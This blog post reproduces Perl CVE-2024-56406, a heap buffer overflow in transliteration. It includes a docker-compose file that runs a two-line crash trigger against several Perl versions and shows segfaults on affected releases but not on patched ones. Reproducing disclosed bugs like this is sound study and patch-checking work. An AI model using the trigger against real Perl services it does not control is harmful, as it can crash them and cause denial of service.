 ```yaml
---
title: "CVE-2024-56406"
date: 2025-05-17T00:00:00+00:00
description: "Discussion about the CVE-2024-56406."
type: post
image: images/blog/cve-2024-56406.png
author: Mohammad Sajid Anwar
tags: ["perl"]
---
```


#### **DISCLAIMER:** Image is generated using `FREE` version of `ChatGPT`.
***

<br>

In the earlier [**post**](/blog/cve-in-perl) where I discussed `CVE` in general and re-created `CVE-2018-18311`, `CVE-2023-31486` and `CVE-2023-47038`.

Recently I found out about [**CPAN Security Group**](https://security.metacpan.org) which is the `CVE Numbering Authority (CNA)` for `CPAN` and `Perl`.

At the `Perl Toolchain Summit 2025`, I had the honour to meet some of the members of the group i.e. ` Stig Palmquist` and `Breno Oliveira`.

Continuing with the series, today I am talking about one more `CVE-2024-56406`.

This particular one affected `v5.34`, `v5.36`, `v5.38` and `v5.40`.

It's about heap buffer overflow when transliterating non-ASCII bytes.

According to the [**official document**](https://lists.security.metacpan.org/cve-announce/msg/28708725), the specific affected versions are below:

<br>

```bash
    from 5.40.0 until 5.40.2
    from 5.38.0 until 5.38.4
    from 5.36.0 through 5.36.3
    from 5.34.0 through 5.34.3
```

<br>

I will use the similar pattern as before and create docker container with affected `Perl` versions.

In that, I'll also add couple of good ones as well.

This is my docker configuration file: `docker-compose.yml`

<br>

```bash
version: '3.8'

services:
  perl_5_34_0:
    container_name: perl_5_34_0
    image: perl:5.34.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_36_0:
    container_name: perl_5_36_0
    image: perl:5.36.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_38_0:
    container_name: perl_5_38_0
    image: perl:5.38.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_38_4:
    container_name: perl_5_38_4
    image: perl:5.38.4
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_40_0:
    container_name: perl_5_40_0
    image: perl:5.40.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_40_2:
    container_name: perl_5_40_2
    image: perl:5.40.2
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G
```

<br>

In summary, I am creating the following services that would throw error as expected:

<br>

```bash
    perl_5_34_0
    perl_5_36_0
    perl_5_38_0
    perl_5_40_0
```

<br>

There are two more services `perl_5_38_4` and `perl_5_40_2` which should be safe and unaffected.

Finally it's time to re-create the issues.

<br>

```bash
$ docker-compose run -rm perl_5_34_0
Creating cve-2024-56406_perl_5_34_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_36_0
Creating cve-2024-56406_perl_5_36_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_38_0
Creating cve-2024-56406_perl_5_38_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_40_0
Creating cve-2024-56406_perl_5_40_0_run ... done
ERROR: 139
```

<br>

If you noticed, the exit code is `139` in the affected services.

As we know, `Exit Code = Signal Number + 128` and the `segfault` signal number is `11`.

And the good ones are:

<br>

```bash
$ docker-compose run -rm perl_5_38_4
Creating cve-2024-56406_perl_5_38_4_run ... done
If you see this, Perl didn't crash!!
```

<br>

```bash
$ docker-compose run -rm perl_5_40_2
Creating cve-2024-56406_perl_5_40_2_run ... done
If you see this, Perl didn't crash!!
```

<br>

***

<br>

`Happy Hacking !!!`
